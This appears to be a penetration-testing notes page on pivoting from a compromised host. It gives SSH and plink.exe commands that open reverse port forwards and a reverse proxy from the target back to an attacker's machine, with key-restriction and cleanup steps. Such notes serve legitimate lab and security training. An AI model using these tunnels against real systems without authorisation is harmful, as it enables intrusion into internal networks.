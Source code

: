 ### Reverse Connections

1.   First, generate a new set of SSH keys and store them somewhere safe `ssh-keygen`
2. Copy the contents of the public key \(the file ending with `.pub`\), then edit the `~/.ssh/authorized_keys` file on your own attacking machine. You may need to create the `~/.ssh` directory and `authorized_keys` file first.
3. On a new line, type the following line, then paste in the public key: `command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty`

This makes sure that the key can only be used for port forwarding, disallowing the ability to gain a shell on your attacking machine.

{% hint style="warning" %}
Make sure SSH is running `sudo systemctl start ssh`
{% endhint %}

Transfer the private key to the target box! \(mad man\).

We can then connect back with a reverse port forward using the following command:

```text
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
```

 In newer versions of the SSH client, it is also possible to create a reverse proxy \(the equivalent of the `-D` switch used in local connections\). This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it:

```text
ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN
```

{% hint style="info" %}
Modern Windows comes with an inbuilt SSH client available by default. This allows us to make use of this technique in Windows systems, even if there is not an SSH server running on the Windows system we're connecting back from.
{% endhint %}

To close any of these connections, type `ps aux | grep ssh` into the terminal of the machine that created the connection: Finally, type `sudo kill PID` to close the connection:

## Plink.exe

Plink.exe is a Windows command line version of the PuTTY SSH client. download a new copy from [here](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

### Reverse Connection

```text
cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N
```

{% hint style="info" %}
 Note that any keys generated by `ssh-keygen` will not work properly here. You will need to convert them using the `puttygen` tool, which can be installed on Kali using `sudo apt install putty-tools`. After downloading the tool, conversion can be done with:  
`puttygen KEYFILE -o OUTPUT_KEY.ppk`
{% endhint %}
